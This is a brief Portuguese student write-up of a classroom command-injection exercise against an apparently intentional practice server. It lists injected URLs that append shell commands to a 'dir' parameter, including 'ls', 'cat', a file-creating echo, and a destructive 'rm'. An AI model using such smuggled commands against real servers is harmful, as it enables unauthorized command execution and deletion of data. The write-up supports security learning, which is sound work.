

# Prática De Command Injection

Foi apresentado o conceito de Command Injection na sala de aula pela dupla que ficou
responsável.

Command Injection é um ataque de execução de comandos no sistema operacional do servidor.

Foi realizado um ataque no servidor vulnerável disponibilizado pelo tutoral: http://commandinjection.herokuapp.com/

A partir das atividades propostas pela prática:

Listei os arquivos do diretório:

    http://commandinjection.herokuapp.com/?dir=;ls

Apaguei um dos arquivos dentro da pasta /files

    http://commandinjection.herokuapp.com/?dir=files;rm%20composer.json

Criei um arquivo com o nome davicedraz.txt dentro da pasta /folder

    http://commandinjection.herokuapp.com/?dir=folder;echo "Dj fazendo a prática de segurança" > dj.txt

Escolhi um diretório qualquer na raiz do servidor e listar seu conteúdo.

    http://commandinjection.herokuapp.com/?dir=files;cat dj.txt

Tutorial bastante fácil de entender e interessante. O mesmo pode ser usado em outros servidores, que possuem a vulnerabilidade.